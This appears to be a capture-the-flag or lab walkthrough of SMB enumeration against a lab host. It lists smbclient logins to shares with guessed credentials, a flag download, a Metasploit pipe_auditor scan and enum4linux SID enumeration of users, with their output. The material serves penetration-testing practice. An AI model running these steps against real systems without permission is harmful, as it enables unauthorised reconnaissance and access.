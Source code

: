 ```
smbclient //192.125.26.3/jane -U jane
smb: \> ls
smb: \> exit
```

```
smbclient //192.125.26.3/admin -U admin
smb: \> ls
smb: \> cd hidden
smb: \hidden\> ls
smb: \hidden\> get flag.tar.gz
smb: \hidden\> exit
```

```
ls
tar -xf flag.tar.gz
ls
cat flag
```

enumerate named pipes.

[Named Pipes](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wpo/4de75e21-36fd-440a-859b-75accc74487c)

```
msfconsole
use auxiliary/scanner/smb/pipe_auditor
set smbuser admin
set smbpass password1
set rhosts 192.125.26.3
options
run
```

```
[+] 192.125.26.3:139    - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \ntsvcs, \srvsvc, \wkssvc
```

Get a list of SID of differnt users.

[安全标识符](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/understand-security-identifiers)

```
enum4linux -r -u "admin" -p "password1" 192.125.26.3
```

```
[+] Enumerating users using SID S-1-22-1 and logon username 'admin', password 'password1'
S-1-22-1-1000 Unix User\shawn (Local User)
S-1-22-1-1001 Unix User\jane (Local User)
S-1-22-1-1002 Unix User\nancy (Local User)
S-1-22-1-1003 Unix User\admin (Local User)
```
